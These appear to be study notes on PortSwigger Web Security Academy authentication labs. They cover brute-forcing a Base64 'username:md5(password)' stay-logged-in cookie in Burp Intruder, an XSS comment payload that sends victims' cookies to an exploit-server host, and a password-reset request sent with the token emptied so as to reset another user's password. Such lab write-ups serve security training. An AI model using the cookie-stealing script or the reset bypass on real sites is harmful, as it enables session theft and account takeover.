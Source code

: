 ```
Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw;

Base64 - wiener:51dc30ddc473d43a6011e9ebba6ca770
MD5 Password - peter:51DC30DDC473D43A6011E9EBBA6CA770
Stay LoggedIn Cookie: Base64 Encoded, username:md5(password)
```

1. In Burp Intruder, add a payload position to the stay-logged-in cookie and add your own password as a single payload.
2. Under "Payload processing", add the following rules in order. These rules will be applied sequentially to each payload before the request is submitted. • Hash: MD5 • Add prefix: carlos: • Encode: Base64-encode

Y2FybG9zOjg0ZDk2MTU2OGE2NTA3M2EzYmNmMGViMjE2YjJhNTc2 - valid

### Lab: Offline password cracking

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality.

`Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Base64 Encoded Cookie stay-logged-in=wiener:51dc30ddc473d43a6011e9ebba6ca770`

The comment functionality is vulnerable to XSS.

```
<script>document.location='//ac441f181f6374b1c0b70a03003c0050.web-security-academy.net/'+document.cookie</script>
```

Post a comment with this payload (own exploit server ID).

On the exploit server, open the access log.** You will see target's cookie value.**

Decoded -> carlos:26323c16d5f4dabff3bb136f2460a943 - Google it - onceuponatime

### Lab: Password reset broken logic

This lab's password reset functionality is vulnerable.

Forgot password -> Email client

https://ac8f1f081e8f4f81c0fb05ab00cb0042.web-security-academy.net/forgot-password?temp-forgot-password-token=7breF0xOthS6aVfgd0LfvZpbxnnaEwAO

```
POST /forgot-password?temp-forgot-password-token= HTTP/1.1
temp-forgot-password-token=&username=carlos&new-password-1=peter&new-password-2=peter
```

We deleted token value, and then change the username. The website does not control token value is exist. There is a weakness. We can change any user's password which we want.

## Password reset poisoning

[https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning)
